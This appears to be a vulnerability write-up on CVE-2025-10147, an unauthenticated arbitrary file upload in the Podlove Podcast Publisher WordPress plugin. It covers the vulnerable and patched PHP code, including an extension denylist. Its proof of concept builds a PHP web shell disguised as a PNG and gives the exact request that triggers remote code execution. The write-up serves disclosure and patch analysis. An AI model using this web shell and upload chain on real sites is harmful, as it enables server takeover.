


<!--more-->

## CVE & Basic Info

The **Podlove Podcast Publisher** plugin for **WordPress** has a vulnerability allowing **arbitrary file uploads** due to missing file type checks in the `'move_as_original_file'` function in all versions up to and including **4.2.6**. This enables **unauthenticated attackers** to upload arbitrary files to the affected site's server, which can lead to **remote code execution**.

* **CVE ID**: [CVE-2025-10147](https://www.cve.org/CVERecord?id=CVE-2025-10147)
* **Vulnerability Type**: Arbitrary File Upload
* **Affected Versions**: <= 4.2.6
* **Patched Versions**: 4.2.7
* **CVSS severity**: High (10)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Podlove Podcast Publisher Plugin](https://wordpress.org/plugins/podlove-podcasting-plugin-for-wordpress/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Podlove Podcast Publisher**: **4.2.6** (vulnerable) and **4.2.7** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff tool to inspect and compare the differences between the two versions.

## Analysis

### Vulnerable Code

According to the CVE description the vulnerability is located in the `move_as_original_file()` function

```php {title="image.php - v2.6.6" hl_lines=[3] data-open=true}
public function move_as_original_file($file)
{
    $move_new_file = @rename($file, $this->original_file());

    if (false === $move_new_file) {
        Log::get()->addWarning(
            sprintf(
                __('Podlove Image Cache: The downloaded image could not be moved to %s.'),
                $this->original_file()
            )
        );
    }
}
```

The `move_as_original_file($file)` function

* Performs a **move of the temporary file `$file`** (just downloaded from the URL)
  → to the **fixed path** returned by `$this->original_file()`.
* `rename()` in PHP = **move file** (relocates the file, not copy).
* The `@` operator **suppresses PHP warnings** if the operation fails.
* If `rename()` returns `false`, the plugin logs a warning.

```php
public function original_file()
{
    return implode(DIRECTORY_SEPARATOR, [
        $this->upload_basedir, $this->file_name('original')
    ]);
}
```

→ Produces an **absolute path on the server**, for example:

```
/var/www/html/wp-content/cache/podlove/6e/7262f37a8018efafa4764ea97a4c26/original.png
```

`$this->upload_basedir` (from `__construct()`)

```php {title="image.php - v2.6.6" hl_lines=[16,19,21,22] data-open=true}
Class Image {
    public function __construct($url, $file_name = '')
    {
        // FIXME: if $file_name is empty, the url will not work. I must not treat this silently!
        $this->source_url = trim($url ?? '');
        $this->file_name = sanitize_title($file_name);

        // manually remove troublemaking characters
        // @see https://community.podlove.org/t/solved-kind-of-cover-art-disappears-caching-issue/478/
        // @see https://sendegate.de/t/problem-mit-caching-von-grafiken/2947
        if (function_exists('iconv')) {
            $this->file_name = iconv('UTF-8', 'ASCII//TRANSLIT', $this->file_name);
        }
        $this->file_name = preg_replace('~[^-a-z0-9_]+~', '', $this->file_name);

        $this->file_extension = $this->extract_file_extension();
        $this->id = md5($url.$this->file_name);

        // create subdirectories to avoid too many directories in the root directory
        $id_directory = substr($this->id, 0, 2).'/'.substr($this->id, 2);

        $this->upload_basedir = self::cache_dir().$id_directory;
        $this->upload_baseurl = content_url('cache/podlove/').$id_directory;
    }
}
```

Built from `cache_dir()` and an MD5 hash of the URL,
→ located under the directory:

```
wp-content/cache/podlove/<first 2 characters>/<remaining characters>/
```

> [!TIP]
> Here you can pass only `$url`, for example:
>
> `$url="https://example.com/filename.php"` then `$this->id="b1555a128239e3f59ccfb8d17e5b6c5a"`
>
> `$this->upload_basedir="http://localhost/wp-content/cache/podlove/b1/555a128239e3f59ccfb8d17e5b6c5a"`
>
> > [!Success] You can control the resulting file path.

`move_as_original_file()` is called inside `download_source()`

```php {title="image.php - v2.6.6" hl_lines=[3,5,6,10,16,18,20,28,29] data-open=true}
public function download_source()
{
    $source_url = $this->source_url;
    ...
    $source_domain = wp_parse_url($source_url, PHP_URL_HOST);
    $current_domain = explode(':', $_SERVER['HTTP_HOST'])[0];

    // if domains match, see if the image is part of the Publisher
    // and can be copied on the filesystem, skipping http
    if ($current_domain == $source_domain) {
        ...
        return;
    }
    // for download_url()
    require_once ABSPATH.'wp-admin/includes/file.php';
    $result = self::download_url($this->source_url);
    ...
    list($temp_file, $response) = $result;

    if (!\Podlove\is_image($temp_file)) {
        ...
        wp_delete_file($temp_file);
        return;
    }

    $this->create_basedir();
    $this->save_cache_data($response);
    $this->move_as_original_file($temp_file);
    wp_delete_file($temp_file);
    $this->add_donotbackup_dotfile();
}
```

This function downloads the image from the user-provided URL, validates it, then saves it into the plugin's cache directory. Specifically:

1. `$source_url` takes the image URL provided by the user.
2. The function extracts the domain from `$source_url` and the site's current domain (`$_SERVER['HTTP_HOST']`).

   * If the two domains match → the image is considered part of the Publisher and the logic returns.
   * If different domains → it uses `download_url()` to fetch the file temporarily on the server.

```php {title="image.php - v2.6.6" hl_lines=[4,12,17,31] data-open=true}
public static function download_url($url, $timeout = 300, $extra_args = [])
{
    ...
    $tmpfname = wp_tempnam($url);
    if (!$tmpfname) {
        return new \WP_Error('http_no_file', __('Could not create Temporary file.'));
    }

    $default_args = [
        'timeout' => $timeout,
        'stream' => true,
        'filename' => $tmpfname,
        'sslverify' => \Podlove\get_setting('website', 'ssl_verify_peer') == 'on',
    ];
    $args = array_merge($default_args, $extra_args);

    $response = wp_safe_remote_get($url, $args);

    if (is_wp_error($response)) {
        wp_delete_file($tmpfname);

        return $response;
    }

    if (200 != wp_remote_retrieve_response_code($response)) {
        wp_delete_file($tmpfname);

        return new \WP_Error('http_404', trim(wp_remote_retrieve_response_message($response)));
    }

    return [$tmpfname, $response];
}
```

`download_url()` fetches the content from the URL into a temporary file on the server and returns **that file path** along with the **response**

3. Checks whether the downloaded file is a valid image with `\Podlove\is_image()`

```php {title="helper.php - v2.6.6" hl_lines=[] data-open=true}
function is_image($file)
{
    $type = get_image_type($file);
    $mime = get_image_mime_type($type);

    return substr($mime, 0, 5) == 'image';
}
```

* In the vulnerable version, `is_image()` only performs a **MIME type** check — it gets the MIME type and verifies whether it starts with "image".

> [!BUG]
> A file that is crafted to mimic image headers (for example, a `.php` file with the first few bytes of a PNG) can bypass this check 😬

```php {title="helper.php - v2.6.7" hl_lines=[20,21,22] data-open=true}
function is_image($file, $filename = "")
{
    // simple PHP based checks
    $type = get_image_type($file);
    $mime = get_image_mime_type($type);
    $mime_is_image = substr($mime, 0, 5) == 'image';

    // more checks using WP helpers
    if (!$filename) {
      $filename = basename($file);
    }
    
    $check = wp_check_filetype_and_ext($file, $filename);
    $ext = isset($check['ext']) && $check['ext'] ? strtolower($check['ext']) : null;
    $wp_type = isset($check['type']) && $check['type'] ? strtolower($check['type']) : null;

    $wp_type_looks_correct = stripos($wp_type, 'image/') === 0;
    
    // denielist some exts for extra safety
    $danger_exts = [
      'php', 'php3', 'php4', 'php5', 'phtml', 'phar', 'pl', 'py', 'rb', 'cgi', 'asp', 'aspx', 'jsp',
    ];

    $ext_looks_dangerous = empty($ext) || in_array($ext, $danger_exts, true);

    return $mime_is_image && !$ext_looks_dangerous && $wp_type_looks_correct; 
}
```

* The patched version adds stricter checks:

  * Keeps the original MIME check (`$mime_is_image`)
  * Adds checks using the WordPress helper [`wp_check_filetype_and_ext()`](https://developer.wordpress.org/reference/functions/wp_check_filetype_and_ext/) to match file extension and actual MIME type
  * If there is no filename provided, it uses `basename()` for the check
  * Denies a list of dangerous extensions (`php`, `phar`, `py`, `jsp`, etc.) via `$danger_exts`
  * Combines three conditions: MIME must be an image, extension must not be dangerous, and WP must recognize the type as an image

4. Moves the temporary file to the final location using `move_as_original_file($temp_file)`

---

`download_source()` is invoked from `podlove_handle_cache_files()` when the source image does not exist

```php {title="images.php - v4.2.6" data-open=true hl_lines=[3,6,8,9,14]}
function podlove_handle_cache_files()
{
    $source_url = \Podlove\PHP\hex2str(podlove_get_query_var('podlove_image_cache_url'));
    ...

    $image = new Image($source_url, $file_name);

    if (!$image->source_exists()) {
        $image->download_source();
    }
    ...
}

function podlove_get_query_var($var_name)
{
    if (isset($_GET[$var_name])) {
        return $_GET[$var_name];
    }

    return get_query_var($var_name);
}
```

`podlove_handle_cache_files()` takes the `podlove_image_cache_url` parameter from the GET request, then decodes it with `hex2str()` to convert from hex format to a string.
=> The `podlove_image_cache_url` parameter must be provided as hex.

Then it initializes the **Image** object which creates the cache storage path and performs downloading of the remote URL to the server.

`podlove_handle_cache_files()` is registered as a callback for the action hook

```php
add_action('wp', 'podlove_handle_cache_files');
```

Meaning this function is called on every WordPress request.

### Flow


graph TD
A["Request with params (podlove_image_cache_url)"] --> B["podlove_handle_cache_files()"]
B --> C["hex2str() → $source_url → new Image(...)"]
C --> D["download_source() → download_url() → temporary file"]
D --> E["is_image() check"]
E -- pass --> F["move_as_original_file() → save to wp-content/cache/podlove/first_2_characters/remaining_characters/"]
F --> G["File accessible → possible RCE"]
E -- fail --> H["Delete temp file → stop"]


## Exploit

### Proof of Concept (PoC)

1. Inject a `<php>` tag into an image file and rename the file to `.php`

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' >> rce.png
mv rce.png rce.php
```

```bash
❯ cat rce.php
�PNG
␦
IHD��Ud�tEXtSoftwaregnome-screenshot��>-tEXtCreation TimeSat 01 Nov 2025 02:58:29 PM +075����IDATH���A
� ��GHI��l��l�˅��K�n�D
�H)���a:kooܲ<`�u�o�
�{�3�9�1�~��      �9����P�1����R�!D>Lk���FT�r�|�Ru��	u��o'�`��?�!"��
2k���IEND�B`�<?php system($_REQUEST["cmd"]); ?>
```

2. Host the file somewhere on the internet on a domain different from the WordPress site, for example:

```
https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php
```

3. Hex-encode the URL (`https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php`)

```bash
❯ echo -n "https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php" | xxd -p
68747470733a2f2f6769746875622e636f6d2f7734316275312f773431746573742f7261772f726566732f68656164732f6d61696e2f7263652e706870
```

3. Send a GET request with param `podlove_image_cache_url=68747470733a2f2f6769746875622e636f6d2f7734316275312f773431746573742f7261772f726566732f68656164732f6d61696e2f7263652e706870`



4. Access the created file and achieve RCE



> [!INFO]
> `02/9acf743e6beb9c8e4395ee694d6504` as analyzed earlier is `md5($url)`, then the directory structure `first_2_characters/remaining_characters` is created from that `md5()` result

## Conclusion

The vulnerability in **Podlove Podcast Publisher ≤ 4.2.6** allows arbitrary file upload due to missing file type validation in `move_as_original_file()`. An attacker can upload malicious files (e.g., `.php`) into:
`wp-content/cache/podlove/<first2>/<rest>/`,
which can lead to **Remote Code Execution (RCE)** if the file is publicly accessible.

## Key Takeaway

* Root cause: weak MIME checking and no blocking of dangerous extensions.
* Patch (≥ 4.2.7): added validation using `wp_check_filetype_and_ext()` and a denylist.
* Mitigation: update the plugin, prevent PHP execution in the cache directory, and remove suspicious files.

## References

[Arbitrary File Upload](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html)

[ WordPress Podlove Podcast Publisher Plugin <= 4.2.6 is vulnerable to Arbitrary File Upload ](https://patchstack.com/database/wordpress/plugin/podlove-podcasting-plugin-for-wordpress/vulnerability/wordpress-podlove-podcast-publisher-plugin-4-2-6-unauthenticated-arbitrary-file-upload-vulnerability)
